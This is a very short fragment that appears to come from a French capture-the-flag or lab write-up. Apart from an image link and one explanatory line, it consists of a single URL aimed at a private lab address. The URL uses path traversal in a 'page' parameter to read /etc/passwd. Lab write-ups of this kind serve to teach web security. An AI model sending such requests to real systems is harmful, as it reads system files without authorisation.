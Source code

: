 on fouille avec page dans les fichier important

http://192.168.56.101/?page=../../../../../../../../../../../../../etc/passwd
